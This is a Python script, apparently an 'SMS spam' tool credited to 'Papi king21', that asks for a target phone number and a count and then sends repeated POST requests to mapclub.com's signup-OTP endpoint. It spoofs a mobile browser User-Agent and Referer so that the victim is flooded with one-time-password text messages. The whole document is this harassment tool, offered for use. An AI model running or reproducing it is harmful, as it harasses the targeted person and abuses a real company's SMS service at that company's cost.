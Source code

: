 import json
import requests
import os
import sys


def main():
	os.system('clear')
	os.system('figlet papiking21')
	banner='''
	[+]AUTHOR:Papi king21
	[+]Youtube : Papi King21
	'''
	print(banner)
	no = input(' target : ')
	jum = input('Jumlah spam : ')


	head = {
	"User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
	"Referer": "https://www.mapclub.com/en/user/signup",
	"Host": "cmsapi.mapclub.com",
	}


	dat = {
	'phone': no
	}

	for x in range (int(jum)):
		leosureo = requests.post("https://cmsapi.mapclub.com/api/signup-otp", headers=head, json=dat)
		if 'eror' in leosureo:
			print('gagal Mengirim ' + no)

		else:
			print('succes mengirim ' + no)



main()
